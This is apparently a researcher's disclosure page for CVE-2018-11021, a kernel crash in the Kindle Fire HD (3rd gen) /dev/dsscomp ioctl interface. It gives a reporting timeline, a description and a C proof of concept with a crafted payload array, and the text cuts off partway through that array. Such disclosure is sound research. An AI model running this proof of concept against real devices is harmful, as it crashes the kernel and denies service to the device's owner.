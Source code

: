 # CVE-2018-11021
These page show one of the practical CVEs that Found. I reported these bugs to Security@amazon.com on On 5/11/2018 and now I have been told they have repaired the bugs and the details can be published. However,  Amazon does not have an advisory page at the moment. I think it is a must to list the detailed infomation here.
## Time Line
 * 5/11/2018 Bugs were reported to Security@amazon.com.
 * 06/27/2018 Amazon got confirmation that CVE-2018-11021 could cause kernel crash.
 * 09/18/2018 Amazon had started updating our FireOS 4 devices with the security patches.
 

 ## CVE-2018-11021
 ### Abstract
 
* Name: Amazon Kindle Fire HD (3rd Generation) Kernel DoS
* Date: 2018-10-10
* Reporter: Shuaibing Lu, Liang Ming
* Vendor: http://www.amazon.com/
* Software Link: https://fireos-tablet-src.s3.amazonaws.com/46sVcHzumgrjpCXPHw6oygKVmw/kindle_fire_7inch_4.5.5.3.tar.bz2
* Version: Fire OS 4.5.5.3
### Description

Kernel module /omap/drivers/video/omap2/dsscomp/device.c in the kernel component in Amazon Kindle Fire HD(3rd) Fire OS 4.5.5.3 allows attackers to inject a crafted argument via the argument of an ioctl on device /dev/dsscomp with the command **1118064517** and cause a kernel crash.

To explore this vulnerability, some one must open the device file /dev/dsscomp, call an ioctl system call on this device file with the command **1118064517** and a crafted payload as the third argument.

### PoC
```
/*
 * This is poc of Kindle Fire HD 3rd
 * A bug in the ioctl interface of device file /dev/dsscomp causes the system crash via IOCTL 1118064517.
 * Related buggy struct name is dsscomp_setup_dispc_data.
 * This Poc should run with permission to do ioctl on /dev/dsscomp.
 *
 */
#include <stdio.h>
#include <fcntl.h>
#include <errno.h>
#include <sys/ioctl.h>

const static char *driver = "/dev/dsscomp";
static command = 1118064517; 

int main(int argc, char **argv, char **env) {
    unsigned int payload[] = {
    0xffffffff,
    0x00000003,
    0x5d200040,
    0x79900008,
    0x8f5928bd,
    0x78b02422,
    0x00000000,
    0xffffffff,
    0xf4c50400,
    0x007fffff,
```